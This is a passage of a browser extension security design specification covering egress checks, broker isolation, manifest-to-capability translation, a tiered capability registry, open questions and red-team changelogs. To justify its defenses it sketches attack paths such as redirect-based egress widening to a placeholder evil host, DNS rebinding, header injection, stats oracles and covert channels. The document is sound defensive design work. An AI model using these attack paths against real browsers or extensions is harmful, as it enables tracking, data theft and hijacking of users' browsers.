**Header mutation must be unconditional to stay standard-tier (the §5 outbound-mutation-is-a-sink rule).** A rule that sets or removes a permitted header only *when the initiator is `sensitive.example`* encodes that initiator into what the destination server sees — an information sink with no request created and no egress granted. So a standard-tier header mutation may not be predicated on initiator, party, or any page-derived state; a mutation that *is* so conditioned composes as a source (`implicit_history`/`page_content`) and is tiered as one (loud), exactly as `network.observe` would be. The **modifiable safe-list is positively enumerated and versioned** (not an open-ended "everything except the protected set"): the security-relevant headers a rule may never set/remove — `CSP`, `Permissions-Policy`, `COOP`/`COEP`/`CORP`, `X-Frame-Options`, `Set-Cookie`, `Strict-Transport-Security`, `Authorization`, `Cookie`, CORS, `Host`, `Origin`, `Sec-*`, `Content-Length` — are engine-controlled, and the writable set is the explicit complement the build validates, so a newly-standardized security header is protected by default (absent from the allowlist) rather than exposed until someone remembers to add it.

**Destination policy is per-hop across BOTH axes, and the socket binds to the checked address.** For extension egress, every DNS resolution and every redirect hop re-runs *two* checks, not one: `capability_scope_allows(canonical_origin(destination))` — the grant's host scope — **and** `address_space_allows(resolved_socketaddr)` — the SSRF/address-space tier. The host-scope re-check is essential and was previously implicit: without it, `network.egress_public(["api.allowed.example"])` following `api.allowed.example/redirect -> collector.evil.example` would silently widen an own-host grant into arbitrary public egress. A host resolving publicly at grant time and to loopback/RFC-1918/link-local later is the address-space half of the same per-hop gate; a redirect off the granted origin set is the scope half. Crucially, Sonar `connect()`s to the exact `SocketAddr` its own check resolved — it never re-resolves by hostname at socket creation, closing the DNS-rebind TOCTOU between check and connect.

```text
network.egress_public           public address space only
network.egress_private_network  RFC 1918 / ULA — loud
network.egress_loopback         gated
```

**Authorization is per logical request, not per socket.** With HTTP/2/3 coalescing, Alt-Svc, connection pooling, and remote-DNS proxies, a new logical request may reuse an existing socket and perform no fresh DNS or `connect()` — and a proxy's socket peer is not the destination. So the invariant is: **every request/stream creation re-authorizes the logical destination and its route (both the host-scope and address-space checks above), regardless of whether the transport is new or reused.** Connection reuse never substitutes for a capability check.

**One extension never filters another extension's traffic.** Sonar attributes every request to an initiator principal, and the ambiguous cases are pinned: a request initiated by an extension's injected content script, its injected frame, or its worker is attributed to the **extension principal** (this is already how §15's egress policy works — those requests are "network-producing operations attributable to an extension" and consume that extension's egress grants), while requests the page's own code makes remain page traffic even on a page the extension has injected into. Extension filtering tables apply to *page* traffic, never to requests initiated by another extension principal. Without this, blocker A could block or rewrite password-manager B's sync/API traffic — a cross-extension integrity/availability power and a feedback channel outside the §5 publisher closure. **Protected traffic** (browser/extension updates, certificate validation, browser-internal services, another extension principal's requests, `gosub://`) is never subject to extension filtering. Sonar enforces all of this — the check must sit where the connection is made.

## 16. The Extension Broker

A dedicated broker process mediates all extension authority; its threat model assumes a fully compromised worker.

**Identity is channel-bound.** An extension never names itself; the broker creates each IPC endpoint and permanently binds it to an extension identity, so authority derives from the connection. Capability references are unforgeable — **kernel-mediated (SCM_RIGHTS) by preference**, since a passed file descriptor cannot be forged or replayed across connections; where a platform lacks it, a per-connection random handle wide enough to resist brute force (≥128-bit) and bound to that connection's identity (never replayable onto another) is the fallback, never an integer index the worker supplies. Renderer-side identity (frame, document, origin) comes from the process topology, never from message fields. This closes the confused-deputy and capability-forgery classes.

**The broker is boring, and its parser is generated.** It deserializes small typed IPC, identifies the channel, checks capability × scope (a Baleen grant-table lookup), revalidates document identity, and forwards a typed operation. The message parser is **schema-generated, not hand-written**, with a fixed set of request/response pairs — no streaming, no partial messages, no state-machine ambiguity — and is fuzzed. It contains no JS runtime, no filter parser, no network, no filesystem, no DOM, no post-install package parsing.

**Compilation is out-of-broker.** Rule and package compilation runs in a sandboxed, unprivileged utility process (no network; filesystem limited to pipes; strict seccomp filter). A compromised compiler yields a hostile artifact — which every consumer validates for bounds *and termination* (§14) — not a privileged process.

The IPC is designed so the broker can later split into network / page / OS capability brokers without protocol changes.

## 17. Engine / User-Agent Split

> **The engine enforces; the user agent decides and renders.**

Engine: Baleen and the filter engines, the capability model and translation, all enforcement, the broker, the runtime, grant storage, native counters, the egress policy, header/socket correctness. User agent: every pixel (dialogs, prompts, revocation UI, badges, attribution surfaces), grant policy and tier availability, distribution/signing/updates, and the UA-side effects of OS-touching capabilities.

The embedder API stays minimal: `install(package) -> CapabilityRequest`, `grant(decision)`, `revoke(extension, scope)`, UI-surface registration, an event channel. An embedder implementing none of it has no extensions.

The honest property:

> **Once an effective grant set is established, the engine enforces it independently of the embedder.**

A user agent *can* build an insecure permission policy — auto-granting is a UA choice. What no embedder can do is widen enforcement beyond the established grant, reach around the broker, or weaken engine-side boundaries. Grant policy is UA trust; grant enforcement is engine guarantee.

**User trust surfaces carry non-spoofable, browser-owned attribution** — new-tab override, notifications, omnibox ownership, active capture, proxy control, debugger attachment — with restore controls rendered outside any extension-controlled surface.

---

# Part IV — Compatibility

## 18. Manifest Translation

`manifest.json` is an input dialect. Install-time translation resolves it to an explicit, pinned capability(scope) list with **canonical scopes** (§3); the broker, dialogs, and revocation operate only on that list.

**Never translate to a wildcard.** No translation produces `filtering.*` or any `foo.*`. Expansion is explicit, so future capabilities never leak into old grants.

**Host patterns are scopes.** A host permission has meaning only with the API that uses it:

```text
host_permissions + scripting            -> content_script(hosts)
host_permissions + webRequest[Blocking] -> network.observe(hosts)  [loud]
host_permissions + cookies              -> cookies.read/write(hosts) [loud]
host_permissions + extension fetch      -> network.egress_public(hosts)
host_permissions + DNR redirect/headers -> filtering.redirect_* /
                                           filtering.headers.*(hosts)
```

**declarativeNetRequest expands explicitly:**

```text
declarativeNetRequest        -> filtering.block(sub+main per rules),
                                filtering.allow, filtering.upgrade_scheme
redirect rules + host scope  -> filtering.redirect_resource(scope) or
                                filtering.redirect_surrogate(scope)
modifyHeaders + host scope   -> filtering.headers.*(scope)
redirect.transform.queryTransform.removeParams
                             -> filtering.rewrite_url(scope)
redirect.transform (any other field: scheme/host/path/port/
  addOrReplaceParams) and redirect.regexSubstitution
                             -> NOT translated — rule-derived
                                destinations (§6); rules dropped,
                                never approximated
declarativeNetRequestFeedback-> stats.per_rule                     [loud]
```

**Filter-list syntax expands the same way** (for packaged ABP/uBO text and `filtering.remote_rulesets` sources):

```text
$removeparam=...             -> filtering.rewrite_url
@@...$removeparam[=...]      -> rewrite exception — scoped like
                                filtering.allow: overrides only THIS
                                extension's rewrites
$urltransform=/re/repl/      -> dropped (substitution)
$replace=...                 -> dropped (response bodies, §15)
##+js(name, args...)          -> filtering.scriptlet if `name` is in
                                the browser library, else requires
                                content_script / page.main_world_inject
#@#+js(...)                   -> scriptlet exception — disables the
                                matching injection, THIS extension only
$redirect=resource            -> filtering.redirect_resource /
                                _surrogate (packaged or browser library)
```

A package whose lists use only library scriptlets never acquires a page-access grant from its scriptlets; the compiler reports the residue (rules that needed a capability the grant lacks) so the publisher can see exactly what a `content_script` grant would buy.

**Non-no-op Chromium keys:** `incognito: "split"` → `extension.private_browsing: isolated`; `activeTab` → `content_script.active_tab` with §13 binding. **No-ops:** `offscreen`, `minimum_chrome_version`.

**The `gosub` key narrows.** An optional manifest key declares a tighter capability list; it may only narrow the translated set. Removing it in an update is an expansion and triggers §13 re-consent.

**Downgrade policy:** unknown permissions ignored at install; MV2 blocking-webRequest offered the declarative path (lists run natively) or the loud observation grant.

Avoid a Gosub-only manifest as the primary format — Safari tried; the ecosystem never came. Package format standard, manifest = syntax, capabilities = semantics.

## 19. Capability Registry (v0.2.9)

Tiers: `silent` (auto-granted) · `standard` (named in dialog) · `loud` (explicit consent, per-site revocable, derived warnings) · `gated` (settings/developer toggle). Each entry carries source / sink / command-source / actuator as **mandatory structured fields** (explicit `none` where inert), validated at build time against the §5 enums so the closure over both axes reads a complete, well-typed registry — no missing actuator, no undeclared atom. Prose below is the human rendering of those fields. Parenthesized parameters are canonical scopes.

```text
-- Filtering (control) --
filtering.block(class, hosts)         subresource silent / main_frame standard
filtering.allow(class, hosts)         silent — overrides only THIS
                                      extension's rules; browser policy
                                      wins; never last-installed-wins
filtering.upgrade_scheme              silent
filtering.redirect_resource(class,h)  passive static targets only;
                                      subresource standard / main_frame loud
filtering.redirect_surrogate(class,h) browser_supplied standard;
                                      extension_supplied loud, isolated
                                      realm, no page storage/postMessage
filtering.headers.request.remove      standard   modifiable safe-list;
filtering.headers.request.set_safe    standard   values RFC-9110 validated
filtering.headers.response.remove_safe standard
filtering.headers.response.set_safe   standard
  (matchable header set is narrower than modifiable; Authorization/
   Cookie/Set-Cookie are not matchable)
filtering.cosmetic                    silent IF compositor-unobservable &
                                      no attacker-chosen URL; else page_content
filtering.procedural                  silent; closed DSL, cost-bounded,
                                      no layout-aware ops, no :xpath
filtering.dynamic_rules               standard; sink: probe +
                                      source: implicit_history +
                                      actuator: filter_policy (the
                                      remotely-drivable mutator; Derived:
                                      remote_server × filter_policy ->
                                      remote.filter_control); may only
                                      mutate rules for capabilities already
                                      held — never confers a new action;
                                      compiler validates each compiled action
                                      against the grant's capability/class/
                                      host/initiator scope
filtering.remote_rulesets(catalog)    standard; browser-fetched, MODEL C
                                      (§9): package pins the catalog
                                      identity+key, catalog signs
                                      (version,hash) revisions with a
                                      freshness max-age; reject on hash/
                                      signature MISMATCH, but on freshness
                                      failure RETAIN the last accepted
                                      revision, surface stale-state UI,
                                      retry mirrors, flag degraded after a
                                      bounded grace window (§9 — rejecting
                                      stale rules fails filtering OPEN, the
                                      withholder's goal); NOT a per-package
                                      frozen hash (that was model A)
filtering.rewrite_url(class, hosts)   standard, ALL classes — no silent
                                      tier: a rewritten request succeeds
                                      with altered meaning (a stripped
                                      CSRF/OAuth-state param degrades
                                      security unattributably), unlike
                                      block's loud failure. DELETION-ONLY,
                                      byte-spliced (§6), one compact rule:
                                      TOKENIZE on raw `&` -> DECODE each
                                      token EXACTLY ONCE for matching only
                                      -> SPLICE the untouched original
                                      bytes for emission (so `%66bclid`
                                      matches `fbclid` but no decoded byte
                                      reaches the wire and encoded trackers
                                      cannot evade); no re-serialization;
                                      duplicates all removed; scheme/host/port/path/
                                      fragment/userinfo byte-identical;
                                      no insertion or substitution at any
                                      tier; no feedback to the extension;
                                      destination-server observability +
                                      signed-query integrity residuals
                                      named (§5, §6);
                                      source: none, sink: none
filtering.scriptlet(hosts)            LOUD until the O3 per-operator
                                      non-interference proofs exist, THEN
                                      standard (conditional tier: main-world
                                      injection is page.main_world_inject-
                                      loud by default, and earns standard
                                      only once each library operator is
                                      proven against the closure — until
                                      then it is granted loud, per-site
                                      revocable, with the derived warning);
                                      browser-supplied audited library ONLY,
                                      under the §8 admission closure:
                                      structured arguments (no source-text
                                      interpolation), write-target ALLOWLIST
                                      by shape (static-string path to an own
                                      primitive data property on a plain
                                      non-DOM/non-navigation object; no
                                      location/cookie/window.open/src-href,
                                      no __proto__/constructor, no Symbol/
                                      computed segment), control-dependence
                                      non-interference (no page-derived
                                      predicate drives an observable effect),
                                      fixed-enum synthesized responses,
                                      no page-derived value ever written
                                      out (byte-provenance channel rule,
                                      §8: page data may be transformed in
                                      place but never MOVED to a new
                                      location); write TARGETS an allowlist
                                      by shape AND write VALUES an allowlist
                                      by vocabulary (fixed defusing
                                      constants, never an arbitrary string —
                                      else an arbitrary value in a page
                                      property the page pipes to a sink is a
                                      gadget-mediated standard-tier sink);
                                      per-operator arity/type schema;
                                      cost-bounded against page input;
                                      RE-VALIDATED renderer-side against the
                                      untrusted artifact (§14);
                                      injected at document-start into the
                                      main world, frame-epoch bound (§13);
                                      source: none, sink: none, actuator:
                                      dom — labels earned by the closure.
                                      Extension-authored scriptlets are
                                      page.main_world_inject; surrogate
                                      and scriptlet library subsets are
                                      realm-partitioned (§8).

-- Statistics --
stats.display                         silent     source: none; badge is
                                      browser CHROME, outside tab/page
                                      pixel-capture scope, so capture.* +
                                      stats.display is not a read-back path
stats.read                            standard   ONE dimensionless counter;
                                      degraded/denied with any probe sink
stats.per_rule                        loud       source: implicit_history

-- Networking (egress = effect, not transport) --
network.egress_public(hosts)          standard   sink: own_hosts/arbitrary
network.egress_private_network(hosts) loud
network.egress_loopback(hosts)        gated
network.observe(hosts, types)         loud       source: implicit_history
                                      + page_content
network.observe_aggregate             loud       source: aggregate
network.proxy_control                 gated      source: browser_traffic
                                      (the PUBLISHER's proxy observes ALL
                                      browser traffic externally — stronger
                                      than ordinary arbitrary_network, no
                                      network.observe needed) + sink:
                                      arbitrary_network + actuator: os;
                                      persistent indicator. Derived (real
                                      atoms): browser_traffic × any sink ->
                                      traffic.exfiltration

-- Page access --
content_script(hosts)                 loud   source: page_content +
                                             sink: arbitrary_network +
                                             actuator: dom + navigation
                                             (inherent — shares the DOM,
                                             can navigate)
content_script.active_tab             standard  same labels; browser-rendered
                                             gesture only; frame-tree/epoch bound
page.main_world_inject(hosts)         loud (or gated); actuator: dom +
                                             navigation; bidirectional trust,
                                             hardening review of injected surface
dom.declarative_actions(hosts)        standard ONLY for ops with a bounded
                                             transitive effect (§8) — a page can
                                             implement "dismiss_consent" so the
                                             state change fires sendBeacon(),
                                             enables trackers, or navigates, so
                                             naming an op semantically does NOT
                                             bound its effect any more than it
                                             does for a scriptlet. Each op needs
                                             the same transitive-effect proof;
                                             ops whose consequence cannot be
                                             bounded (they participate in page
                                             behavior) are LOUD, only the
                                             provably-passive browser-owned
                                             transformations stay standard. A
                                             fixed set (e.g. expand/collapse),
                                             NOT "click selector X"; never mints
                                             user activation; actuator: dom
dom.actions_arbitrary(hosts)          loud      I:high; actuator: dom;
                                             arbitrary click/select on
                                             declared selectors — any dispatched
                                             click can invoke arbitrary page JS,
                                             so this is page-integrity power, per
                                             site; never mints activation
styles.inject_safe(hosts)             standard  no network-bearing CSS
styles.inject_raw(hosts)              loud      source: page_content
styles.read(hosts)                    standard/loud  source: page_content
forms.detect_credentials              standard  mediated (browser reveals on
                                             user invocation) else source:tab_urls
forms.fill                            standard  browser-managed origin-bound
                                             credential store; opaque candidate
                                             handles; rate-limited candidate
                                             generation; renderer revalidates
                                             document identity at execution.
                                             actuator: dom — filling mutates the
                                             page and can trigger auto-submit/
                                             auth/navigation, so it is standard
                                             ONLY because each fill requires a
                                             FRESH browser-owned user gesture the
                                             extension cannot synthesize and the
                                             extension cannot CHOOSE the
                                             credential (the browser does): those
                                             two facts are what keep egress +
                                             forms.fill out of Axis-2 remote
                                             control — stated here, not inferred
forms.read(hosts)                     loud      source: credentials
input.commands                        standard  mediated chords; quantized
                                             timing; no editable/password fields;
                                             no IME/clipboard
input.raw_keys(hosts)                 loud      source: keystrokes
content_handler(origin, mimes)        standard  scoped by ORIGIN + MIME;
                                             source: page_content + credentials
                                             (it RENDERS the raw response body —
                                             dialog says "read the raw content
                                             of <mime> responses", not a page
                                             script); no sink of its own, so it
                                             exfiltrates only if separately
                                             granted egress (then Axis 1 shows
                                             page.exfiltration); isolated
                                             principal; network-origin responses
                                             only; refuses cross-origin-
                                             credentialed unless origin matches
context.selection_text                standard  gesture-scoped source: selection
context.page_url / link_url / media_url standard gesture-scoped source: tab_urls

-- Capture --
capture.tab_pixels                    loud   persistent indicator; source: pixels
capture.tab_video                     loud   persistent indicator
(microphone/camera: web permission model, not extension capabilities)

-- Tabs & downloads --
tabs.snapshot                         standard  browser-rendered gesture only,
                                             rate-limited/coarsened; source:tab_urls
tabs.events                           loud      source: tab_urls; frame-tree
                                             events are COARSENED where the
                                             extension lacks authority over the
                                             frame — a cross-origin child it
                                             cannot access is not distinguishable
                                             from a same-origin one (else its
                                             mere creation is a side channel)
tabs.organize                         standard  close/move/group — no sink,
                                             but actuator: browser_ui (closing/
                                             regrouping tabs is browser-state +
                                             availability power; Derived:
                                             remote_server × browser_ui ->
                                             remote.ui_control — egress +
                                             tabs.organize IS remotely-driven
                                             tab control, an Axis-2 hit)
tabs.open / tabs.navigate             standard  sink: arbitrary_network +
                                             actuator: navigation; SCHEME
                                             ALLOWLIST, enumerated — http and
                                             https ONLY. Not "web schemes":
                                             javascript: is main-world
                                             execution; data: (a top-level
                                             data:text/html IS script execution
                                             in a fresh origin) and blob: are
                                             excluded BY NAME, not left to
                                             implementation discretion; about:/
                                             file:/internal/extension schemes
                                             require separately named authority
downloads.create(url)                 standard  sink: arbitrary_network;
                                      actuator: os (a download IS a request)
downloads.history                     loud      source: download_urls
downloads.control                     standard  actuator: os; pause/resume/
                                      cancel/erase
downloads.open                        gated     actuator: os; browser gesture
                                      required

-- Storage --
storage.private                       silent
storage.managed                       gated   command-source: enterprise_policy
                                             (admin config can change behavior)

-- Cookies --
cookies.read(hosts)                   loud   source: credentials; scoped by
                                      the §3 cookie scope algebra (readable
                                      origins), not bare canonical_origin
cookies.write(hosts)                  loud   I:high; scoped by the §3 cookie
                                      scope algebra (every emittable origin
                                      in grant; host-only default);
                                      sink: session_state
                                      (a written cookie is a delayed
                                      outbound channel — the browser
                                      emits it in a later Cookie header,
                                      so state exfiltrates without
                                      cookies.read or direct egress);
                                      actuator: session_state (Derived:
                                      remote_server × session_state ->
                                      remote.session_control)
cookies.read_httponly(hosts)          gated  never default for ordinary extensions

-- Browser UI (attribution per §17) --
ui.toolbar, ui.commands               silent
ui.context_menu                       silent  register/display only — the
                                             information is in context.* above
ui.notifications                      standard  actuator: browser_ui
ui.omnibox_register                   standard  browser_ui actuator (keyword UI)
omnibox.input                         standard  source: user_text;
                                      command-source: user (typed after keyword)
omnibox.navigate                      standard  actuator: navigation +
                                      sink: arbitrary_network; same
                                      enumerated scheme allowlist as
                                      tabs.navigate (http/https only —
                                      no javascript:/data:/blob:/internal)
ui.devtools_panel                     standard  UI panel ONLY — carries none of
                                      the DevTools data authority below
devtools.network                      loud      source: implicit_history +
                                      page_content (HAR log + response bodies)
devtools.inspected_eval               gated     actuator: dom + navigation;
                                      page.main_world_inject-equivalent
                                      (eval in the inspected page)
devtools.dom                          loud      source: page_content;
                                      actuator: dom
ui.newtab_override                    standard  actuator: browser_ui; browser
                                      attribution + restore

-- System & lifecycle --
system.native_messaging(hosts)        gated   sink: native_host +
                                             command-source: native_process +
                                             actuator: os (bidirectional).
                                             Derived: native_process ×
                                             filter_policy -> native.filter_
                                             control, etc. Denied in private
                                             browsing by default (§12: shared
                                             native process is a cross-instance
                                             bridge).
system.user_scripts                   gated   sink: user_scripts; fetched
                                             content may not become a user script
extension.private_browsing            §12     denied / isolated /
                                             isolated_network / spanning
scheduling                            silent  (never relied upon absent for
                                             stats decorrelation)
```

Deltas from v0.2: egress replaces fetch and covers all transports; redirect split into resource/surrogate; styles split into safe/raw; cosmetic/procedural gated on compositor-invisibility; dynamic_rules gains implicit_history + the no-new-action invariant; stats.read reduced to one counter; forms.fill gains the browser-managed store; content_handler scoped by origin; context.* split from ui.context_menu; cookies.* added; tabs split into snapshot/events/organize/open/navigate; header match/modify sets separated with byte validation. v0.2.1 deltas: `stats.read` relabeled `implicit_history` (defense is a privacy budget, not dimensionality); `dom.declarative_actions` reduced to a semantic op set with generic clicking moved to loud `dom.actions_arbitrary`; command-axis labels populated on `proxy_control`, `native_messaging`, `storage.managed`; `downloads` split into create/history/control/open; `omnibox`/`devtools` split so their input/network/eval/HAR authority is separately tiered. v0.2.2 deltas: `filtering.rewrite_url` added (deletion-only query-parameter removal; substitution transforms explicitly excluded as open-redirect sinks); `filtering.scriptlet` added (browser-supplied audited scriptlet library, standard, main-world injection with no extension channel; extension-authored scriptlets stay `page.main_world_inject`). v0.2.3 deltas: `rewrite_url` re-tiered standard for all classes and re-specified as byte-splice deletion (fragment/userinfo frozen, duplicates removed, no re-serialization, parsing-differential and server-observability residuals named); `scriptlet` gains the §8 admission closure (structured arguments, write-target and prototype-path denylist, fixed-enum synthesized responses, no-channel claim widened to every extension context, page-input cost bounds, frame-epoch binding, realm partition from surrogates). v0.2.4 deltas: `rewrite_url` matching split from emission (normalize-to-match, splice-original) so percent-encoded trackers cannot evade, signed-query integrity residual named; `scriptlet` closure hardened — write-target allowlist (was denylist), byte-provenance channel rule (was observability), per-operator arity/type schema, renderer-side revalidation against the §14 untrusted artifact, and the library governed with §9-style versioned closure-proof transparency. v0.2.5 deltas: `scriptlet` write allowlist extended from target-shape to VALUE-vocabulary (fixed defusing constants only, closing the page-gadget sink); byte-provenance rule reworded to MOVEMENT (page data may be transformed in place but not moved to a new location, so json-prune is no longer over-banned); `rewrite_url` decode pinned to one pass and the `;`-separator named as a server-parse heuristic, not a boundary. v0.2.6 deltas: label algebra (§5) closed and made the authoritative schema the registry is validated against (`probe`/`download_urls`/`user_text`/`browser_traffic`/`native_process`/`enterprise_policy`/`publisher_update`/`session_state` promoted from ad-hoc registry atoms to enum members); `cookies.write` gains a `session_state` sink + actuator; `rewrite_url` re-specified to tokenize on raw separators before decoding (phantom-separator fix) with `;` no longer a separator; any readable egress is a `remote_server` command-source (§5). v0.2.7 deltas: source/sink/command-source/actuator made MANDATORY structured fields validated against the §5 enums — `actuator` labels added to `tabs.open/navigate`, `omnibox.navigate`, `content_script`, `page.main_world_inject`, `dom.actions_arbitrary`, `devtools.dom/inspected_eval`, `ui.notifications/newtab_override`, `filtering.dynamic_rules`, `downloads.control`, `native_messaging` (the closure previously could not derive `remote.navigation_control` etc. from the registry); prose source labels normalized to enum atoms; `remote_rulesets` re-specified as catalog model C (not a package-frozen hash); cookie capabilities scoped by the §3 cookie scope algebra; navigation gets a scheme allowlist (no `javascript:`); `tabs.events` coarsened for inaccessible cross-origin frames; `content_handler` dialog wording sharpened; `native_messaging` denied in private browsing. v0.2.8 deltas: navigation scheme allowlist enumerated (http/https only; `javascript:`/`data:`/`blob:` excluded by name); `session_state` confirmed sink/actuator-only (ill-typed source product removed from §5); no registry-entry changes otherwise. v0.2.9 deltas: sink definition widened to include externally-observable outbound MUTATION (§5), so conditional header/rewrite mutation is a source; stale one-liners fixed (`remote_rulesets` keep-stale not reject-stale, `rewrite_url` decode-once not no-decoding); `proxy_control` retyped to real atoms (`browser_traffic`); `tabs.organize` gains `actuator: browser_ui`; `forms.fill` gains `actuator: dom` + explicit fresh-gesture/no-credential-choice requirement; `dom.declarative_actions` gated on a transitive-effect proof (page-participating ops loud); header safe-list positively enumerated + headers never comma-combined; egress covers WebRTC/WebTransport/raw sockets.

---

## Open Questions (v2.1)

```text
Resolved since v2 (by red-team):
  effect-based labeling; two-axis (command) composition; publisher-
  principal closure; single-counter stats; redirect resource/surrogate
  split; hash-pinned remote lists; browser-managed credential store;
  renderer-revalidated document identity; schema-generated broker parser
  with unforgeable handles; DAG/step-cap artifact validation; egress-as-
  effect + CRLF + socket-bind + canonicalization; frame-tree-wide grant
  teardown; control-plane IPC priority.

Still open:
  O1  Baleen build-vs-embed — threshold stated (§14); awaits benchmarks.
  O2  Exhaustive WebExtension API-surface list and priority.
  O3  The exact procedural DSL operator set at launch (criterion in §8),
      and the launch contents of the browser-supplied scriptlet /
      surrogate library — each entry PROVEN against the §8 admission
      closure (structured arguments, write-target AND write-value
      allowlists, fixed-enum responses, control-dependence non-
      interference — no page-derived predicate controls an extension-
      observable effect — and, for function-wrapping / accessor-
      installing operators, a per-operator proof since the generic
      data-write schema cannot cover them; and a TRANSITIVE-effect proof —
      with no suppressive-semantics shortcut, since suppressing a
      page's guard enables the guarded action (§8) —
      because even a vocabulary-safe write can drive a page gadget;
      the proof is closed under operator COMBINATION (co-injected ops
      jointly), must bound TIMING (constant-time in page data), and is
      limited by RICE'S THEOREM — provable only for operators whose
      effect is boundable independent of page-defined accessors, so
      the un-provable majority stay PERMANENTLY loud, not eventually
      standard (the finite verdict list — write-only fixed-enum
      operators that clear the four gates, versus read-page-data
      operators that stay loud — is drafted in Appendix D); the
      trusted-* family is out by construction. The semantic
      properties are proven at library-build time and CARRIED with the
      library as a machine-checkable proof the renderer verifies rather
      than re-derives (§8, structural-vs-semantic split). Discharging these per-operator proofs is also
      what RELAXES `filtering.scriptlet` from its default loud tier to
      standard (§8, §11, §19): until the shipped operator set is proven
      (control-dependence non-interference in particular, which is not
      decidable from arity/type), the capability is granted loud. The
      library ships each release WITH its machine-checked closure proof
      as a versioned auditable artifact, operator semantic changes being
      a transparency event (§8, §9-style governance).
  O4  Privileged / first-party extensions and how extra authority shows.
  O5  stats privacy-budget parameters (criterion: a single-site probe
      needs O(weeks) to distinguish one visit from noise), with a
      stated noise DISTRIBUTION and leakage bound and DISCRETE, rate-
      limited, noised depletion (so the pool's depletion rate is not
      itself a binary-search channel), enforced against a GLOBAL
      per-profile pool, partitioned regular/private
      (§7, §12), so sharding across many one-rule extensions cannot
      parallelize past the bound; cross-PROFILE parallelization (N
      profiles = N pools) is a named residual, since per-device pooling
      needs OS-level trust the model does not assume.
  O6  Signing / trust MECHANISM (the UA-side implementation of §17
      distribution). Publisher IDENTITY and transfer semantics are no
      longer open — they are now part of the model (§13), because
      publisher-principal closure (§5) depends on them.
  O7  Covert-channel review (storage/cache/DNS/timing/quota) — the one
      area the confidentiality argument does not yet fully reach; owns
      the same-publisher and timing residuals, the shared-main-world
      channel between unrelated publishers' scriptlets and content
      scripts (§8) — treated by §5 as a browser-provided communicating
      set (the whole DOM-connected frame TREE, not one document — A in
      the top frame and B in a same-tree cross-origin child collude via
      window.top/parent) and stated honestly as ESSENTIALLY OPEN
      between any two extensions reaching that tree (name randomization
      is defeated by global/DOM enumeration; the content-script DOM
      channel is untouched by it); O7 owns the whole channel as a
      limitation, with loud tiers and store co-install signals as the
      structural controls — and rewrite_url's destination-server
      observability (§6).
  O8  Enforcement rigour named as proof obligations rather than assumed:
      the §14 validator (formal verification, enumerated attack list),
      the §8 scriptlet library (per-operator non-interference proofs),
      and the §16 broker parser (schema-generated over a verified
      parsing core). "Audited" / "schema-generated" are placeholders
      for these proofs, per the red-team meta-critique that sophistication
      must not substitute for enforcement.
  O9  Named residuals the model does not close, only bounds: the socket
      ROUTING TOCTOU (a compromised OS/network can re-route after the
      checked connect — the threat model trusts the OS for routing); the
      remote-list GRACE WINDOW (keep-stale + visible flag deliberately
      trades a bounded, user-visible known-vuln window for not failing
      filtering open — a compromised catalog can hold a client stale for
      that bounded window); and the revocation COMMIT residual (bytes
      already on the wire cannot be unsent — pre-emption bounds new
      effects, not committed ones).
```

## Design Goal

A user installing an ad blocker, a password manager, or a tab organizer should be able to read the installation dialog and have it be *true* — not a legal fiction covering the worst case of a bundled grant. Most extensions should hold only declarative rules, one narrow scoped capability, or a channel to their own service. Broad power should be rare, loud, honestly described, and revocable — and the sum of granted capabilities across a publisher, over both information and command flow, is what the model accounts for.

## Changelog: v2 → v2.1

Driven by five red-team passes (Claude, ChatGPT, DeepSeek ×2, Gemini).

1. **Composition made effect-based and two-axis (§5).** Labels attach to observable effect, not API namespace; a second command-source × actuator axis catches remote control with no data leaving; the closure principal is the publisher/communicating set, not the package; warnings recompute on update.
2. **content_script / active_tab are inherent sinks; active_tab no longer silent.**
3. **Egress replaces fetch (§15, §19):** all network-producing operations route through one Sonar egress policy keyed on effect; `network.fetch_*` → `network.egress_*`.
4. **tabs split:** organize (no sink) vs open/navigate (sinks).
5. **styles split:** inject_safe (no network CSS) vs inject_raw (loud, page_content); cosmetic/procedural gated on compositor-invisibility and attacker-chosen-URL removal (§6, §8).
6. **stats.read reduced to one dimensionless counter (§7);** defense rests on quantization not timing.
7. **redirect split** into resource (passive) and surrogate (isolated realm, loud when extension-supplied) (§6).
8. **remote_rulesets hash-pinned mandatorily (§9).**
9. **forms.fill browser-managed origin-bound store; mediated detection; opaque rate-limited candidates (§19).**
10. **content_handler scoped by origin; context.* split from ui.context_menu (§19).**
11. **cookies.read/write/read_httponly added; header match-set separated from modify-set (§15, §19).**
12. **Grant lifecycle hardened (§13):** renderer revalidates document identity at execution; frame-tree-wide teardown; revocation pre-empts the worker via control-plane priority and re-evaluates live documents.
13. **Baleen validation covers termination (§14):** DAG/step-cap invariant, safe handles, audited fuzzed validator.
14. **Sonar correctness (§15):** RFC-9110 header-value validation (CRLF); connect-to-resolved-SocketAddr (DNS-rebind); one shared canonicalizer with the translator (§3).
15. **Broker (§16):** schema-generated parser, unforgeable capability handles, sandboxed seccomp compiler.
16. **private_browsing:** guarantee restated as no *browser-provided* channel; `isolated_network` mode added (§12).
17. **filtering.allow scoped to self; dynamic_rules never confers a new action (§19).**
18. **web_accessible_resources randomized per session + origin-scoped.**
19. **Appendix C corrected:** the `filtering.*` wildcard and `filtering.modify_headers` references removed.
20. Stated criteria: Baleen build-vs-embed threshold, procedural operator inclusion, stats privacy budget; covert-channel review named as O7.

## Changelog: v2.1 → v2.1.1

A sixth red-team pass. The core §5 model survived again; these are two model-bug fixes plus label-completion and honesty corrections.

1. **§3 loopback-origin bug fixed.** `canonical_origin()` (scheme+host+port; `localhost`, `127.0.0.1`, `[::1]` stay distinct) is split from `classify_address_space()` (groups them as loopback for egress/SSRF). The prior wording collapsed distinct origins — a privilege expansion for origin-scoped grants.
2. **§7 single-rule stats oracle fixed.** One dimensionless counter does *not* close the oracle — an attacker ships one rule and reads its site's hits. `stats.read` is relabeled `source: implicit_history`; the defense is now an explicit browser-owned privacy budget with a stated leakage bound, not counter shape. The quantization-boundary priming attack is noted.
3. **§19 `dom.declarative_actions` re-modeled as semantic.** The browser cannot decide "state-changing" from DOM structure, so generic clicking moved to loud `dom.actions_arbitrary`; declarative actions are now a fixed browser-recognized op set (dismiss_consent, etc.).
4. **Command axis populated (§5, §19).** `proxy_control` relabeled `implicit_history + arbitrary_network` (publisher's proxy observes externally → `traffic.exfiltration`); `native_messaging` gains `command-source: native_process`; `storage.managed` gains `command-source: enterprise_policy`. §5 clarifies axis 2 is a derived-pattern detector fed by per-entry actuator labels.
